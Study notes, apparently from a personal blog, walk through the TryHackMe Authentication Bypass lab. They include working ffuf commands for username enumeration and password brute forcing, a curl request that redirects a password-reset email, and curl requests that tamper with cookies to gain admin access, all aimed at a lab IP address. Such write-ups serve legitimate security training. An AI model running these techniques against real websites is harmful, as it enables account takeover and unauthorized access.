 ```yaml
---
{"dg-publish":true,"permalink":"/thm-notes/web-fundamentals-path/baisc-vuln/authentication-bypass/","title":"Authentication Bypass - THM Walkthrough","tags":["web"]}
---
```


<a href="https://blog.satvik.live/post/THM%2FWEB%2FAuthentication-Bypass-THM-Walkthrough" style="text-decoration:none;">
  <button style="
    background: linear-gradient(90deg, rgba(0,123,255,1) 0%, rgba(0,102,204,1) 100%);
    border: none; /* Remove borders */
    color: white; /* White text */
    padding: 10px 20px; /* Some padding */
    text-align: center; /* Centered text */
    text-decoration: none; /* Remove underline */
    display: flex; /* Use flexbox */
    align-items: center; /* Center items vertically */
    justify-content: center; /* Center items horizontally */
    font-size: 16px; /* Increase font size */
    margin: 4px 2px; /* Add some margin */
    cursor: pointer; /* Add a pointer on hover */
    border-radius: 12px; /* Rounded corners */
    box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1); /* Add shadow */
    transition: transform 0.2s; /* Animation for hover effect */
    height: 40px; /* Fixed height for better alignment */
  " onmouseover="this.style.transform='scale(1.05)';" onmouseout="this.style.transform='scale(1.0)';">
    Visit Walkthrough 👀
  </button>
</a>
# Notes: TryHackMe Authentication Bypass Module



## Overview
The TryHackMe Authentication Bypass module explores various methods to bypass website authentication mechanisms, which can lead to unauthorized access and potential data breaches. This module covers:
1. Username Enumeration
2. Brute Force Attacks
3. Logic Flaws in Authentication
4. Cookie Tampering

## Key Concepts and Tools

### Username Enumeration
- **Concept**: Identify valid usernames by analyzing error messages.
- **Tool**: `ffuf` (Fuzz Faster U Fool) - used to automate the process of finding valid usernames.
- **Command**:
  ```sh
  ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.252.140/customers/signup -mr "username already exists"
  ```
- **Insight**: The tool identifies usernames by looking for a specific error message indicating that the username already exists.

### Brute Force Attacks
- **Concept**: Attempt to guess passwords using a list of commonly used passwords.
- **Tool**: `ffuf` - used again for brute forcing credentials.
- **Command**:
  ```sh
  ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.252.140/customers/login -fc 200
  ```
- **Insight**: The tool tries different combinations of usernames and passwords to find valid credentials.

### Logic Flaws
- **Concept**: Exploit logical errors in the authentication process.
- **Example**: Manipulating the password reset process to redirect the reset email.
- **Tool**: `curl` - used to craft specific HTTP requests.
- **Command**:
  ```sh
  curl 'http://10.10.252.140/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={your_email}@customer.acmeitsupport.thm'
  ```
- **Insight**: By changing the email address in the POST data, you can redirect the password reset email to an address you control.

### Cookie Tampering
- **Concept**: Modify cookies to gain unauthorized access or escalate privileges.
- **Example**: Changing plain text cookies to elevate privileges.
- **Tool**: `curl` - used to send HTTP requests with modified cookies.
- **Commands**:
  ```sh
  curl -H "Cookie: logged_in=true; admin=false" http://10.10.252.140/cookie-test
  curl -H "Cookie: logged_in=true; admin=true" http://10.10.252.140/cookie-test
  ```
- **Insight**: Understanding how cookies work and modifying them can allow unauthorized access to higher privilege areas of a website.

## Importance of Tools and Topics
- **`ffuf`**: Automates the process of finding valid usernames and passwords, saving time and increasing efficiency.
- **`curl`**: Allows crafting and sending specific HTTP requests, crucial for testing and exploiting web vulnerabilities.
- **Understanding Authentication Mechanisms**: Fundamental for identifying and exploiting weaknesses in web applications.
- **Learning from Logic Flaws**: Highlights the importance of thorough testing and code review to prevent security issues.

## How the Attacks Were Performed
1. **Username Enumeration**:
   - Used `ffuf` to automate sending signup requests with different usernames.
   - Looked for error messages indicating existing usernames.
2. **Brute Force Attacks**:
   - Used `ffuf` to try multiple password combinations for valid usernames.
   - Checked for successful login indicators (HTTP status codes).
3. **Logic Flaw Exploitation**:
   - Manually crafted `curl` requests to manipulate the password reset process.
   - Redirected password reset emails to an address under my control.
4. **Cookie Tampering**:
   - Examined and modified cookies to change session states.
   - Sent requests with modified cookies to gain higher privileges.

## Conclusion
The Authentication Bypass module on TryHackMe provides hands-on experience with identifying and exploiting common vulnerabilities in web authentication mechanisms. Mastery of these techniques is crucial for cybersecurity professionals, particularly those preparing for certifications like eJPT. Understanding the tools and methods discussed ensures a solid foundation in ethical hacking and web security.

-----

